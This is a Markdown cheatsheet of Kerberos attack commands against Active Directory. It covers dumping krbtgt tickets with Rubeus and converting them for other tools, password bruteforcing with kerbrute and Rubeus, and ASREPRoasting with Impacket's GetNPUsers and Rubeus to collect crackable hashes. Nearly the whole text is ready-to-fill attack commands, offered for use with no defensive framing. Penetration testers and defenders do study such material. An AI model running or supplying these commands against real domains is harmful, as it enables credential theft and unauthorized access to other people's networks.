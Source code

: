 ## Extracting tickets from rubeus dump 
```
https://github.com/curi0usJack/rubeus2ccache

# Run rubeus to dump tickets
rubeus dump /service:krbtgt > output.txt

# Extract
python3 rubeus2ccache.py -i output.txt

# Then load tickets into tools...
```

# Kerberos cheatsheet

## Bruteforcing

With [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute):
```shell
python kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```

With [Rubeus](https://github.com/Zer1t0/Rubeus) version with brute module:
```shell
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```

## ASREPRoast

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetNPUsers.py:
```shell
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

With [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```
